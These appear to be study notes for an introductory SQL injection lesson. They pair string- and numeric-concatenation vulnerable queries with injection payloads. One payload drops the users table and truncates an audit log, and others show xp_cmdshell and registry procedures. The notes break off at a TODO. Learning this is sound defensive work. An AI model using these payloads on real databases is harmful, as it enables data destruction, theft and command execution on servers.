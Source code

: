 # A1 - Injection

## SQL Injection (intro)

### Concept

### What is SQL?

### Data Manipulation Language (DML)

- SELECT
- INSERT
- UPDATE
- DELETE

### Data Definition Language (DDL)

- CREATE
- ALTER
- DROP

### Data Control Language (DCL)

- GRANT
- REVOKE

### What is SQL injection?

Vulnerable code:

```sql
SELECT * FROM users WHERE name = '" + userName + "'
```

Exploits:

- `Smith’ OR '1' = '1`
- `Smith’ OR 1 = 1; --`
- `Smith’; DROP TABLE users; TRUNCATE audit_log; --`

### Consequences of SQL Injection

### Severity of SQL Injection

Only these databases support command chaining:

- Microsoft Access
- MySQL Connector/J and C
- Oracle

Not all databases are equal:

- Command shell: `master.dbo.xp_cmdshell 'cmd.exe dir c:'`
- Registry commands: `xp_regread`, `xp_regdeletekey`, ...

### String SQL Injection

Vulnerable Code:

```sql
SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'
```

Exploit:

`Smith' or '1' = '1`

### Numeric SQL Injection

Vulnerable Code:

```sql
SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = " + User_ID
```

Exploit:

```
login_count: 1
userid: 1 or 1 = 1
```

### Compromising confidentiality with String SQL Injection

TODO